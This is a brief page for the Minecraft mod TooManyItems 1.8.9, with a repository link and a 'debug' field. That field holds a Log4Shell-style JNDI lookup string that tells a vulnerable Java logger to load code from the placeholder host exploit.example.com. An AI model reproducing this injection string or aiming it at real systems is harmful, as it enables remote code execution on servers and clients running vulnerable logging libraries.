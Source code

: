 # TOOMANYITEMS MOD 1.8.9 (Upgrated by me)
# [github.com/HowardZHY/TooManyItems](github.com/HowardZHY/TooManyItems)

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
